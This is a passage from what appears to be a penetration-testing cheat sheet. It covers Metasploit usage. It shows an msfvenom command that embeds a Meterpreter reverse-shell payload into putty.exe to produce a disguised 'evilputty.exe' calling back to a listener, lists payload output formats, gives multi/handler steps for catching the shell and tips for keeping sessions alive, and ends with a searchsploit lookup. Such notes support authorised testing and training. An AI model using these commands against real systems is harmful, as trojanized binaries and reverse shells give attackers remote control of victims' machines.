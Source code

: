 Example Creating executable payload using putty.exe as template:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -x putty.exe -f exe > evilputty.exe
```

Output format options (-f):
```
asp, aspx, aspx-exe, dll, elf, elf-so, exe, exe-only, exe-service, exe-small, loop-vbs, macho, msi, msi-nouac, osx-app, psh, psh-net, psh-reflection, vba, vba-exe, vbs, war
```

Transform format options:
```
bash, c, csharp, dw, dword, hex, java, js_be, js_le, num, perl, pl, powershell, ps1, py, python, raw, rb, ruby, sh, vbapplication, vbscript
```

***

## MSFConsole Commands

[https://spreadsecurity.github.io/2016/11/17/attack-simulation-from-no-access-to-domain-admin.html](https://spreadsecurity.github.io/2016/11/17/attack-simulation-from-no-access-to-domain-admin.html)

Using `multi/handler`:
```
1. use multi/handler
2. set payload windows/meterpreter/reverse_tcp
3. set LHOST <Listening_IP> (for example set LHOST 192.168.5.55)
4. set LPORT <Listening_Port> (for example set LPORT 4444)
5. exploit
```

If the meterpreter session dies shortly after establishing the connection, try stablizing the connection by migrating to another process:

```
set AUTORUNSCRIPT post/windows/manage/migrate
```

Or use another type of process thread:

```
set exitfunc seh
```

```
set exitfunc thread
```

***

## Searchsploit Commands

Look for exploits using findings from Nmap scans:

```
searchsploit -x --nmap full_tcp_nmap.xml
```
